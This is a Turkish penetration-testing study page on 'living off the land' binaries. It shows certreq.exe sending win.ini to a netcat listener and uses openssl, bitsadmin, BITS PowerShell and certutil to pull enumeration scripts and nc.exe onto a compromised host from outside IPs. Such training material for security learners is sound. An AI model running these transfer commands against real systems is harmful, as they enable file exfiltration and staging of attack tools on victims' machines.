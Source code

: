 ```yaml
---
icon: material/circle-small
---
```


# Living off The Land

LOLBins (Living Off The Land Binaries) terimi, bir saldırganın orijinal amacının ötesinde eylemler gerçekleştirmek için kullanabileceği ikili dosyaları ifade etmek için kullanılır. Şu anda LOLBins hakkında bilgi toplayan iki web sitesi bulunmaktadır:

1. [LOLBAS](https://lolbas-project.github.io)
2. [GTFOBins](https://gtfobins.github.io/)

## Using the LOLBAS and GTFOBins Project

### LOLBAS

LOLBAS (Living Off The Land Binaries, Scripts and Libraries) sitesinde indirme ve yükleme işlevlerini aramak için `/download` veya `/upload` filtrelerini kullanabiliriz.

Örnek olarak [CertReq.exe](https://lolbas-project.github.io/lolbas/Binaries/Certreq/) aracını ele alalım. Netcat aracını kullanarak gelen trafiği, saldırı makinemizdeki bir port üzerinden dinlememiz ve ardından bir dosya yüklemek için `CertReq.exe` aracını çalıştırmamız gerekiyor:

```batch
certreq.exe -Post -config http://192.168.49.128 c:\windows\win.ini
```

Bu, dosyayı Netcat oturumumuza gönderecektir:

```bash
sudo nc -lvnp 80
```

```text title="Output"
listening on [any] 80 ...
connect to [192.168.49.128] from (UNKNOWN) [192.168.49.1] 53819
POST / HTTP/1.1
Cache-Control: no-cache
Connection: Keep-Alive
Pragma: no-cache
Content-Type: application/json
User-Agent: Mozilla/4.0 (compatible; Win32; NDES client 10.0.19041.1466/vb_release_svc_prod1)
Content-Length: 92
Host: 192.168.49.128

; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```

Eğer `CertReq.exe` aracını çalıştırırken hata alırsanız kullandığınız sürüm POST parametresini içermiyor olabilir. Güncel sürümü [buradan](https://github.com/juliourena/plaintext/raw/master/hackthebox/certreq.exe) indirip tekrar deneyebilirsiniz.

### GTFOBins

LOLBAS sitesinde indirme ve yükleme işlevlerini aramak için `+file download` veya `+file upload` filtrelerini kullanabiliriz.

Örnek olarak [OpenSSL](https://www.openssl.org/) aracını ele alalım. Öncelikle bir sertifika oluşturmamız gerekiyor:

```bash
openssl req -newkey rsa:2048 -nodes -keyout key.pem -x509 -days 365 -out certificate.pem
```

Ardından sunucuyu başlatıyoruz:

```bash
openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh
```

Artık ele geçirilmiş bilgisayardan dosyayı indirebiliriz:

```bash
openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh
```

## Other Common Living off the Land Tools

### Bitsadmin Download function

BITS ([Background Intelligent Transfer Service](https://docs.microsoft.com/en-us/windows/win32/bits/background-intelligent-transfer-service-portal)), HTTP sitelerinden ve SMB paylaşımlarından dosya indirmek için kullanılabilir. Kullanıcının ön plandaki çalışması üzerindeki etkiyi en aza indirmek için bilgisayar ve ağ kullanımını akıllıca kontrol eder:

```batch
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

PowerShell, BITS ile etkileşime olanak tanır, dosya indirme ve yükleme işlemlerine olanak tanır, kimlik bilgilerini destekler ve belirtilen proxy sunucularını kullanabilir:

```powershell
Import-Module bitstransfer; Start-BitsTransfer -Source "http://10.10.10.32/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

### Certutil

Certutil aracı dosyaları indirmek için kullanılabilir. Tüm Windows sürümlerinde mevcuttur ve Windows için popüler bir dosya aktarım tekniğidir. Ancak AMSI (Antimalware Scan Interface), bu araçla yapılan kötü niyetli kullanımları algılamaktadır:

```batch
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
